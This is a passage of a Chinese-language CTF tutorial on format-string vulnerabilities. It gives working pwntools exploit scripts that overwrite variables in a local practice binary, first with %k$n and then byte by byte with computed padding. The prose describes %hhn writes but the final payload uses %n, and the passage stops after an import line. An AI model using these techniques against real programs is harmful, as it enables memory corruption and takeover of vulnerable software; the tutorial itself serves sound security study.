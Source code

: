我们可以将payload修改一下，前面两个aa是让变量a赋值为2，而最后的xx作为补位（32位字长位4），这样第六位参数就为`aa%k`，第七位参数为`$nxx`，a_addr为第八位参数，所以这里的`k`为8。
```c
'aa%k' + '$nxx' + p32(a_addr)
```
通过IDA找到a的地址
```c
.data:0804A024                 public a
.data:0804A024 a               dd 7Bh      
```
最终利用代码如下
```python
from pwn import *

p=process("./overwrite")
a_addr=0x0804A024

payload ='aa%8' + '$naa' + p32(a_addr)
p.sendline(payload)

p.interactive()
```

#### 覆盖大数字
需要将变量b的值覆盖成0x12345678，如果直接一次性输入那么大的数字来覆盖，可能会因为传送的数值过大，导致失败，就算传送成功，那么大的值也可能导致程序崩溃。那么有没有办法可以覆盖呢？

我们知道x86和x64的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678在内存中由低地址到高地址依次为\x78\x56\x34\x12。而格式化字符串中有两个标志位
- hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
- h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。

这就意味着我们可以利用`%hhn`向某个地址写入单字节，利用`%hn`向某个地址写入双字节

变量b的地址为0x0804A028，那么就可以按照单字节写入的方式进行覆盖
```c
0x0804A028 \x78
0x0804A029 \x56
0x0804A02a \x34
0x0804A02b \x12
```
如果把b_addr放到格式化字符串的第六个参数位，然后通过%6$n将0x78写入，以此类推，将b_addr+1的地址放到第七位，用%7$n写入0x56，b_addr+2的地址放到第八位，用%8$n写入0x34，最后b_addr+3的地址放入第九位参数位，用%9$n写入0x12。就可以成功覆盖变量b为0x12345678
对应的payload
```python
p32(b_addr)+p32(b_addr+1)+p32(b_addr+2)+p32(b_addr+3)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'
```
pad1：因为前面四个地址已经占了16（0x10）字节了，所以还需要104（0x78-0x10=0x68）个字节，所以`pad1为%104c`
pad2：前面已经输出了120个字节，而%hhn写入的是单字节，只取后面的0x56，所以还需要222（0x156-0x78）个字节，所以`pad2为%222c`
pad3：前面已经输出了342（120+222）个字节，因为同样是%hhn为单字节，只取0x34，还需要222（0x234-0x156）字节，所以`pad3为%222c`
pad4：前面已经输出了564（120+222+222）个字节，还需要222（0x312-0x234）个字节。所以`pad4为%222c`

最终利用代码如下
```python
from pwn import *

p=process("./overwrite")
b_addr=0x0804A028

payload=p32(b_addr)+p32(b_addr+1)+p32(b_addr+2)+p32(b_addr+3)+'%104c'+'%6$n'+'%222c'+'%7$n'+'%222c'+'%8$n'+'%222c'+'%9$n'
p.sendline(payload)

p.interactive()
```
也可以使用pwntools的自带的工具
```python
from pwn import *
```